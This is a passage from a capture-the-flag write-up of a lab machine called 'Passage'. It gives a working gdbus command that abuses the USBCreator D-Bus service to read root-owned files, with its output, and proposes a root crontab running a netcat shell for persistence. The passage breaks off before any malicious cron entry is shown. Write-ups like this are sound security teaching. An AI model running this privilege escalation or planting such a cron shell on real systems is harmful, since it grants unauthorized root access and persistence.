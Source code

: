 ```
-'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  1  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  1  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf

# History of marks within files (newest to oldest):

> /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
        "       12      7

> /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
        "       2       0
        .       2       0
        +       2       0
```

That `/etc/dbus-1/system.d/com.ubuntu.USBCreator.conf` thing looked very interesting and suspicious. Searching for "USBCreator" yields a lot of results, but

We can copy the root flag with this command:

`gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /output.txt true`

```
nadav@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /output.txt true
()
nadav@passage:~$ cat /output.txt
492c733f**********0f6b3f5569195
```

But, in real engagements we're looking for root, not some pesky root flag! To get root it's actually quite easy, basically we can just write our own crontab file and make it execute a netcat shell as the root user for us every minute, landing us persistence (albeit not stealthy at all) and a root shell!

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
nadav@passage:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
```